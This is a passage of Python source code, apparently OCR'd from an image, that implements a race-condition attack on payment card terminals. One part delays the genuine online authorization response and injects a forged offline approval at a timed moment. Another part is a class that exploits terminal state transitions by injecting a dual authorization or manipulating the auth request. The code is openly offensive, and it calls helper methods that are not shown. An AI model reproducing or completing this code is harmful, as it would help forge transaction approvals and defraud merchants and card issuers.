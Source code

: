 ```python
        offline_thread = threading.Thread(
            target=self.inject_offline_response,
            args=[transaction_id]
        )
        
        # Start both threads with precise timing
        offline_thread.start()
        time.sleep(0.001)  # 1ms offset
        online_thread.start()
        
    def monitor_online_response(self, transaction_id):
        """
        Monitora resposta online legítima
        """
        try:
            # Wait for legitimate online response
            response = self.wait_for_online_response(transaction_id, timeout=5.0)
            
            if response:
                # Delay legitimate response slightly
                time.sleep(0.02)  # 20ms delay
                self.response_queue.put(('ONLINE', response))
                
        except TimeoutError:
            # Online timeout - perfect for offline injection
            self.response_queue.put(('TIMEOUT', None))
    
    def inject_offline_response(self, transaction_id):
        """
        Injeta resposta offline no momento preciso
        """
        # Wait for optimal injection moment
        time.sleep(0.015)  # 15ms injection delay
        
        fake_offline = self.create_offline_approval(transaction_id)
        self.response_queue.put(('OFFLINE', fake_offline))

# Terminal State Machine Exploitation
class TerminalStateMachine:
    def __init__(self):
        self.states = ['IDLE', 'CARD_PRESENT', 'APP_SELECTED', 'PENDING_AUTH', 'AUTHORIZED', 'DECLINED']
        self.current_state = 'IDLE'
        self.transitions = {}
        
    def exploit_state_transition(self, from_state, to_state, attack_payload):
        """
        Explora transições de estado vulneráveis
        """
        # Identify vulnerable transition
        if from_state == 'PENDING_AUTH' and to_state == 'AUTHORIZED':
            # Inject conflicting authorization
            return self.inject_dual_authorization(attack_payload)
            
        elif from_state == 'APP_SELECTED' and to_state == 'PENDING_AUTH':
            # Manipulate auth request
            return self.manipulate_auth_request(attack_payload)
            
        return False
    
    def inject_dual_authorization(self, payload):
        """
        Injeta dupla autorização para criar confusão
```